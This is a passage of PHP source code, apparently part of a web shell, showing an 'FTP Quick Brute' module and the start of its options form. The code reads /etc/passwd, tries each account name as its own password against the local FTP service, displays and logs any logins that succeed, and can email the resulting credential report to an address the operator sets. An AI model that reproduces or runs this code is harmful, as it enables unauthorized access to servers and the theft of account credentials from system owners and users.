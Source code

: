       $sock = @ftp_connect($host,$port,$timeout);
      if (@ftp_login($sock,$login,$pass)) {
        echo "&lt;a href=\"ftp://".$login.":".$pass."@".$host."\" target=\"_blank\"&gt;&lt;b&gt;Connected to ".$host." with login \"".$login."\" and password \"".$pass."\"&lt;/b&gt;&lt;/a&gt;.&lt;br&gt;";
        ob_flush();
        return TRUE;
      }
    }
  }
  if (!empty($submit)) {
    if (!is_numeric($fqb_lenght)) {$fqb_lenght = $nixpwdperpage;}
    $fp = fopen("/etc/passwd","r");
    if (!$fp) {echo "Can't get /etc/passwd for password-list.";}
    else {
      if ($fqb_logging) {
        if ($fqb_logfile) {$fqb_logfp = fopen($fqb_logfile,"w");}
        else {$fqb_logfp = FALSE;}
        $fqb_log = "FTP Quick Brute (".$sh_name.") started at ".date("d.m.Y H:i:s")."\r\n\r\n";
        if ($fqb_logfile) {fwrite($fqb_logfp,$fqb_log,strlen($fqb_log));}
      }
      ob_flush();
      $i = $success = 0;
      $ftpquick_st = getmicrotime();
      while(!feof($fp)) {
        $str = explode(":",fgets($fp,2048));
        if (exftpbrutecheck("localhost",21,1,$str[0],$str[0],$str[6],$fqb_onlywithsh)) {
          echo "&lt;b&gt;Connected to ".getenv("SERVER_NAME")." with login \"".$str[0]."\" and password \"".$str[0]."\"&lt;/b&gt;&lt;br&gt;";
          $fqb_log .= "Connected to ".getenv("SERVER_NAME")." with login \"".$str[0]."\" and password \"".$str[0]."\", at ".date("d.m.Y H:i:s")."\r\n";
          if ($fqb_logfp) {fseek($fqb_logfp,0); fwrite($fqb_logfp,$fqb_log,strlen($fqb_log));}
          $success++;
          ob_flush();
        }
        if ($i &gt; $fqb_lenght) {break;}
        $i++;
      }
      if ($success == 0) {echo "No success. connections!"; $fqb_log .= "No success. connections!\r\n";}
      $ftpquick_t = round(getmicrotime()-$ftpquick_st,4);
      echo "&lt;hr size=\"1\" noshade&gt;&lt;b&gt;Done!&lt;/b&gt;&lt;br&gt;Total time (secs.): ".$ftpquick_t."&lt;br&gt;Total connections: ".$i."&lt;br&gt;Success.: &lt;font color=green&gt;&lt;b&gt;".$success."&lt;/b&gt;&lt;/font&gt;&lt;br&gt;Unsuccess.:".($i-$success)."&lt;/b&gt;&lt;br&gt;Connects per second: ".round($i/$ftpquick_t,2)."&lt;br&gt;";
      $fqb_log .= "\r\n------------------------------------------\r\nDone!\r\nTotal time (secs.): ".$ftpquick_t."\r\nTotal connections: ".$i."\r\nSuccess.: ".$success."\r\nUnsuccess.:".($i-$success)."\r\nConnects per second: ".round($i/$ftpquick_t,2)."\r\n";
      if ($fqb_logfp) {fseek($fqb_logfp,0); fwrite($fqb_logfp,$fqb_log,strlen($fqb_log));}
      if ($fqb_logemail) {@mail($fqb_logemail,"".$sh_name." report",$fqb_log);}
      fclose($fqb_logfp);
    }
  }
  else {
    $logfile = $tmpdir_logs."exsh_ftpquickbrute_".date("d.m.Y_H_i_s").".log";
    $logfile = str_replace("//",DIRECTORY_SEPARATOR,$logfile);
    echo "&lt;form action=\"".$surl."\"&gt;&lt;input type=hidden name=act value=\"ftpquickbrute\"&gt;".
         "Read first:&lt;/td&gt;&lt;td&gt;&lt;input type=text name=\"fqb_lenght\" value=\"".$nixpwdperpage."\"&gt;&lt;/td&gt;&lt;/tr&gt;".
         "&lt;tr&gt;&lt;td&gt;&lt;/td&gt;&lt;td&gt;&lt;input type=\"checkbox\" name=\"fqb_onlywithsh\" value=\"1\"&gt; Users only with shell&lt;/td&gt;&lt;/tr&gt;".
         "&lt;tr&gt;&lt;td&gt;&lt;/td&gt;&lt;td&gt;&lt;input type=\"checkbox\" name=\"fqb_logging\" value=\"1\" checked&gt;Logging&lt;/td&gt;&lt;/tr&gt;".
         "&lt;tr&gt;&lt;td&gt;Logging to file:&lt;/td&gt;&lt;td&gt;&lt;input type=\"text\" name=\"fqb_logfile\" value=\"".$logfile."\" size=\"".(strlen($logfile)+2*(strlen($logfile)/10))."\"&gt;&lt;/td&gt;&lt;/tr&gt;".